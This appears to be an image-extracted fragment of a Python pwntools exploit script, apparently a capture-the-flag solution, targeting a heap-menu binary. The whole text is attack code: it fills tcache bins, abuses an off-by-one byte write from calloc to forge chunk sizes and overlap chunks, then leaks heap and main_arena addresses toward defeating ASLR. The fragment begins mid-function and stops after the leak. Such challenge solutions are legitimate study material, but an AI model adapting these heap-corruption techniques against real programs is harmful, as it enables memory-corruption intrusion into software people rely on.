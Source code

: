 ```
        p.sendlineafter("Instrument: ", p32(0x9f91e7))

def Zhi(byte):
    # calloc(0x88uLL, 1uLL) off-one-byte
    p.sendlineafter(": ", "5")
    assert 0 &lt; byte &lt; 256
    p.sendline(str(byte))

fake_size = 0xe0
broken_chunk = 0x1f0
pad_chunk = 0x240
#gdb.attach(p,'c')
#pause()
for i in range(7):
    Gong(0,broken_chunk)
    Shang(0)
for i in range(7):
    Gong(0,broken_chunk + fake_size + 0x10)
    Shang(0)
for i in range(7):
    Gong(0,0x1b0)
    Shang(0)
for i in range(7):
    Gong(0, 0xf0)
    Shang(0)  
for i in range(6):
    Gong(0, 0x90)
    Shang(0)   
for i in range(6):
    Gong(0, 0x80)
    Shang(0)   
for i in range(7):
    Gong(0, pad_chunk)
    Shang(0)      
for i in range(7):
    Gong(0,0x100)
    Shang(0)

Gong(0,0x1b0)
Gong(1,0x80)
Shang(0)
Shang(1)
Gong(0,0x1b0-0xa0) # 0xa0 unsortedbin
Shang(0)
Gong(0,0x1b0)
Gong(1,broken_chunk)
Shang(0)
Gong(0,0x1b0-0x90) # 0x90 unsortedbin
Shang(0)
Gong(0,broken_chunk,p64(0)*(fake_size / 8 + 1) + p64(broken_chunk - fake_size + 1))
Zhi(fake_size + 0x11)
Shang(1)

Gong(1, 0x3f0,'x00'*0x48 + p64(0x401-0x50))
Shang(1)
Gong(1,pad_chunk,'x00'*0x1f8 + p64(0x201))
Shang(0)
Jue(1)
p.recvuntil(": ")
p.recvn(0x200)
heap = u64(p.recv(8))
main_arena = u64(p.recv(8))
main_arena -= 96
```